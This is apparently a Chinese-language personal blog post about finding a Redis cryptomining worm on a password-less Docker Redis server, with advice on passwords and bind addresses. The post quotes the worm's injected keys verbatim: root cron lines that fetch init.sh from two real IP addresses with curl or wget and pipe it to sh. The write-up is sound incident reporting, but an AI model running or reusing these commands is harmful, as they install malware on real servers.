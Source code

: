 ```yaml
---
title: 事实证明，互联网会惩罚每一个裸奔的人之 Redis 扩散病毒
date: 2023-05-25 12:14:48
permalink: /pages/4cd319/
---
```

前段时间换了台电脑，一大堆开发环境我实在是懒得在本地搞了，每次启动来启动去太麻烦了，索性直接在服务器上开 Docker 部署，`docker pull` 复制粘贴什么 Redis、什么 MySQL 分分钟装好，要用的时候直接远程连接就行了，简直不要太方便。

也不是什么业务场景让我发现了这么一个病毒，因为大部分 Redis Key 都是设置了过期时间的，开发过程也没感觉到什么问题，纯粹是有一天我闲着没事干，进入 Redis 命令行 `keys *` 看看，不看不要紧，一看好家伙，多出了几个 key，大概就是下面这样子：

```bash
uid:1
uid:2
uid:3
backup1
backup2
backup3
backup4
```

多出了 4 个 `backup` 前缀的 key，我第一反应这肯定是什么备份文件

正常情况下我根本不会在意，纯粹就是那天确实比较闲，不如来学习下 Redis 吧（哈哈），于是，禀着好学的基本素养，我分别查看了下这里面的 value 是什么：

```bash
*/2 * * * * root cd1 -fsSL http://194.87.139.103:8080/cleanfda/init.sh | sh

*/3 * * * * root wget -q -O- http://194.87.139.103:8080/cleanfda/init.sh | sh

*/4 * * * * root curl -fsSL http://45.83.123.29/cleanfda/init.sh | sh

*/5 * * * * root wd1 -q -O- http://45.83.123.29/cleanfda/init.sh | sh
```

`wget` 是用来下载东西的，`curl` 是用于执行 HTTP 请求，点开 http://45.83.123.29/cleanfda/init.sh 看看到底是什么脚本文件：

![](https://cs-wiki.oss-cn-shanghai.aliyuncs.com/image-20230525124259081.png)

又是改权限，又是关防火墙删文件的，用屁股想都知道这 IP 肯定是国外的了：

![](https://cs-wiki.oss-cn-shanghai.aliyuncs.com/image-20230525124428278.png)

查了下发现这是一种 Redis 扩散病毒，专门利用 **Redis 未授权**访问漏洞的挖矿病毒。没错，就是 Redis 没设置密码，没授权，让病毒有了可乘之机。如果服务暴露在互联网上就一定要设置密码，不要裸奔 😭，很多同学大部分时间都是在本地开发，没有设置密码的习惯或者只是简单的设置成 `root` 这种

另外，除了设置密码，服务器开放端口的时候最好也指定下 IP，不然默认的 `0.0.0.0:6379` 任何 IP 都可以访问
